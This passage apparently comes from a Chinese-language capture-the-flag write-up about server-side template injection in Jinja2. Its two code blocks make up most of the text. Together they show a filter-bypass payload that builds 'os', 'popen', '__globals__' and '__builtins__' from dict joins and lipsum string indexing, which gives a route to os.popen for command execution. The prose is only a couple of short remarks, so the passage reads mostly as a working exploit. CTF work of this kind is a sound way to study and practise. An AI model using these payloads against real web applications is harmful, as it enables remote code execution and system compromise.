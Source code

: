 

<img src="https://i-blog.csdnimg.cn/blog_migrate/96f500b9ca0a7db341c6e2ffb9b6f653.png" alt="" style="max-height:459px; box-sizing:content-box;" />
过滤了 改名字就可以了

```cobol
{%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set pp=dict(po=a,pen=b)|join%}
{%print lipsum|attr(globals)|attr(get)(shell)|attr(pp)%}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c91c731a750b4ee55c9061b57c6741ef.png" alt="" style="max-height:710px; box-sizing:content-box;" />


成功获取咯

## 获取chr

### 首先要获取__builtins__

```cobol
 
{%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set pp=dict(po=a,pen=b)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%print builtins%}
```
